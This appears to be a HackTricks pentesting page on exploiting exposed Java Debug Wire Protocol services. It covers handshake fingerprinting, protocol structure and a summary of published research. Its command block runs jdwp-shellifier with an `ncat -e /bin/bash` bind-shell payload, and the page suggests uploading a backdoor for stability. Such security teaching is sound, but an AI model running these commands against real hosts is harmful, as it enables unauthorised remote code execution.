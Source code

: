 # Pentesting JDWP - Java Debug Wire Protocol

{{#include ../banners/hacktricks-training.md}}

<figure><img src="/images/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Exploiting

JDWP exploitation hinges on the **protocol's lack of authentication and encryption**. It's generally found on **port 8000**, but other ports are possible. The initial connection is made by sending a "JDWP-Handshake" to the target port. If a JDWP service is active, it responds with the same string, confirming its presence. This handshake acts as a fingerprinting method to identify JDWP services on the network.

In terms of process identification, searching for the string "jdwk" in Java processes can indicate an active JDWP session.

The go-to tool is [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). You can use it with different parameters:

```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```

I found that the use of `--break-on 'java.lang.String.indexOf'` makes the exploit more **stable**. And if you have the chance to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

## More details

**This is a summary of [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Check it for further details.

1. **JDWP Overview**:

   - It's a packet-based network binary protocol, primarily synchronous.
   - Lacks authentication and encryption, making it vulnerable when exposed to hostile networks.

2. **JDWP Handshake**:

   - A simple handshake process is used to initiate communication. A 14-character ASCII string “JDWP-Handshake” is exchanged between the Debugger (client) and the Debuggee (server).

3. **JDWP Communication**:

   - Messages have a simple structure with fields like Length, Id, Flag, and CommandSet.
   - CommandSet values range from 0x40 to 0x80, representing different actions and events.

4. **Exploitation**:

   - JDWP allows loading and invoking arbitrary classes and bytecode, posing security risks.
   - The article details an exploitation process in five steps, involving fetching Java Runtime references, setting breakpoints, and invoking methods.

5. **Real-Life Exploitation**:

   - Despite potential firewall protections, JDWP services are discoverable and exploitable in real-world scenarios, as demonstrated by searches on platforms like ShodanHQ and GitHub.
   - The exploit script was tested against various JDK versions and is platform-independent, offering reliable Remote Code Execution (RCE).

6. **Security Implications**:
   - The presence of open JDWP services on the internet underscores the need for regular security reviews, disabling debug functionalities in production, and proper firewall configurations.

### **References:**

- [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
- [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
- [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
- http://www.secdev.org/projects/scapy(no longer active)
- [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
- http://www.hsc-news.com/archives/2013/000109.html (no longer active)
- [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
- https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
- [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
- [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
- [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
- [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/images/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{{#include ../banners/hacktricks-training.md}}

